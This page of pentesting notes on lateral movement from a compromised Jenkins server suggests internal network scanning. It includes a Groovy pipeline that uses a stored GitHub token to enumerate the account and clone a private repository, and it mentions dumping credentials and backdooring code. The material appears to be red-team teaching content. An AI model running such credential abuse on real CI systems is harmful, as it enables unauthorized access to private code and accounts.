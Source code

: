 # Lateral Movement

## Internal Network Scan
- When Jenkins is deployed on premise, it has to potential to reach multiple corporate services and endpoints
- When Jenkins is deployed in cloud, it is reachable to limited on premise corporate services through direct connect.
- Therefore, it is worth performing a network scan to find the reachable services, enumerate ports and see if we can exploit any of the services in corp environment.
- We can also use build logs to find if any such corp environment is accessed through analyzing build logs.

## Enumerating services with access tokens
- If we are successful in dumping tokens, we should review what kind of privileges that token hold and what we can do with it.
- For our understanding, let us take an example of github access token.
  - We can try to enumerate various services the token has privileges to perform.
  - So imagine you have access to an admin level personal access token, then there is no limit to the things you can do - Dump credentials, backdoor code, etc
  - We can also have access to private repositories and we can view the cloned contents in the workspace :) 
``` Groovy
pipeline{
    agent any
    stages{
        stage('Recon with token'){
            steps{
                withCredentials([usernamePassword(credentialsId: 'github-token', usernameVariable: 'USERNAME', passwordVariable: 'TOKEN')]) {
                    sh '''
                    curl -s -L \
                        -H "Accept: application/vnd.github+json" \
                        -H "Authorization: Bearer $TOKEN"\
                        -H "X-GitHub-Api-Version: 2022-11-28" \
                        https://api.github.com/user
                    '''
                }
            }
        }
        stage('Clone a private repo with token'){
            steps{
                withCredentials([usernamePassword(credentialsId: 'github-token', usernameVariable: 'USERNAME', passwordVariable: 'TOKEN')]) {
                    sh '''
                        git clone https://dibsy:$TOKEN@github.com/dibsy/a-temp-private-repo.git
                    '''
                }
            }
        }
    }
}
```

## Executing groovy console commands via dumped jenkins-api token.
## Creating an AWS resources from their dumped tokens.
